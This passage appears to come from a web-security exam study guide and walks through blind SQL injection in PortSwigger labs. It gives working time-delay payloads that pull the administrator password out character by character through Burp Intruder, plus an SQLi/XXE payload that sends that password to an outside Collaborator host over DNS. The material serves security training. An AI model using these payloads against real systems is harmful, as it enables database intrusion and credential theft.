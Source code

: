 ![blind-time-delay SQLi](images/blind-time-delay.png)  

>Using CLUSTER Bomb attack to re-run the attack for each permutation of the character positions in the password, and to determine character value.  

```SQL
;SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```  

>Using CLUSTER bomb attack type with two payload, first for the length of the password ` 1..20 ` and then second using characters ` a..z ` and numbers ` 0..9 `. Add the **Response Received** column to the intruder attack results to sort by and observe the ` 10 ` seconds or  more delay as positive response.  

![blind CLUSTER bomb SQLi](images/blind-cluster-bomb.png)  

[PortSwigger Lab: Blind SQL injection with time delays and information retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)  

#### Practice Exam PostgreSQL TimeDelay  

>In the Burp Practice exam stage 2 the SQL injection is escaped not using single quote ` ' ` but using a semicolon `;` and then URL encoding it as `%3B`.  

```SQL
%3BSELECT+pg_sleep(7)--
```  

![practice exam stage-2 time delay sqli](images/practice-exam-stage-2-timedelay-sqli.png)  

>With a Intruder CLUSTER bomb attack the password can be extracted in one single attack with two payload positions in the below payload.  

```SQL
;SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(7)+ELSE+pg_sleep(0)+END+FROM+users--
```  

>Stage 3 of the Burp Practice exam admin portal require exploitation of an [insecure deserialization](#ysoserial) cookie value.  

### Blind SQLi  

>Target is vulnerable to Out of band data exfiltration using Blind SQL exploitation query. In this case the trackingID cookie.  Below is combination of SQL injection and XXE payload to exploit the vulnerability and send administrator password as DNS request to the collaborator service.  

```sql
TrackingId=xxx'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.COLLABORATOR.NET/">+%25remote%3b]>'),'/l')+FROM+dual--
```  

![Blind SQL injection with out-of-band data exfil](images/blind-SQL-injection-out-of-band-exfil.png)  
  
[PortSwigger Lab: Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)  
  